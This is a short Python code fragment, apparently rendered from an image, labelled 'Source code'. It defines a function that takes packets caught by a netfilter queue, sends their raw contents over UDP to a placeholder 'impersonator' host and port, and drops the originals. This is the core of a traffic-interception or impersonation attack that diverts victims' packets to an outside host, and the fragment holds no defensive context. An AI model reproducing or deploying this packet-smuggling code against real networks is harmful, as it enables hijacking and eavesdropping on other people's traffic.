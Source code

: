 


`import` `signal`




`import` `traceback`




`import` `socket    `







`IMPERSONATOR_IP ``=` `'x.x.x.x'`




`IMPERSONATOR_PORT ``=` `19840`







`udp_socket ``=` `socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)    `







`def` `smuggle_packet(nfqueue_element):`




`   ``try``:`




`       ``original_packet ``=` `nfqueue_element.get_payload()`




`       ``print``(``'smuggled'``)`




`       ``udp_socket.sendto(original_packet, (IMPERSONATOR_IP, IMPERSONATOR_PORT))`




`       ``nfqueue_element.drop()`




`   ``except``:`




`       ``traceback.print_exc()`


